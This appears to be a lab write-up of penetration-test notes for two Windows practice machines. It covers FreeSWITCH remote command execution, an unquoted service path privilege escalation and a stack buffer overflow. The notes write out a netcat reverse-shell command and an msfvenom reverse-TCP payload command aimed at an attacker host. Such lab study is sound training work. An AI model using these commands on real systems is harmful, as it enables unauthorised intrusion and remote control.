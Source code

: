 ```bash
Asystole (.105)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
TryHackMe’s Steel Mountain
Exploit in Getting User
1. Port 8081 is running FreeSWITCH
2. Use this exploit: https://www.exploit-db.com/exploits/47799
3. Copy the exploit and modify the file extension from txt to py
4. Run: python3 47799.py 192.168.XX.105 dir
5. dir is a command in windows =.=
6. Next step is to upload a netcat binary. For this one use Powershell
7. Execute reverse shell using netcat: python3 47799.py 192.168.XX.105 “.\nc.exe -nv
192.168.XX.XX 445 -e cmd.exe”
1. User shell!
Privilege Escalation to Root
1. Use winPEAS to gather info and look for a vulnerable service name.
2. The machine has a vulnerable service path (Unquoted Service Path)
3. Rename the existing service
4. Create a reverse shell (exe) in msfvenom
5. Upload it to the path folder of the service
6. Setup netcat listener
7. Reboot the target machine
8. Root!

```bash
b0f-vic (.111)
```
Operating SystemWindows
Points25
Similar Machine (Root)VulnHub’s Brainpan
Steps to Root
1. Controlling Extended Instruction Pointer (EIP) Register - ruby
/usr/share/metasploit-framework/tools/pattern_create.rb -l 3000
1. Run the Debugger and run the application then run the exploit
2. Get the EIP value - ruby /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l
3000 -q XXXXXXXX
1. Identify Bad Characters by modifying the exploit and putting the byte array.
2. Redirecting Execution Flow using Mona modules
3. !mona modules - to list down all the modules
4. Then look for modules that has no memory protections such as ASLR or DEP
5. Then make sure that it doesn’t have bad characters in its address
6. The only module that is suited for my criteria is offsec_pwk_dll.dll
7.  Double click the chosen dll
8.  And input !mona find -s "\xff\xe4" -m offsec_pwk_dll.dll
9.  Get the instruction address of JMP ESP
10. Create a shell code - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.XX.43
LPORT=1337 -f c -a x86 --platform windows -b "BAD CHARS HERE"
1.  Run the exploit
2.  Root shell!
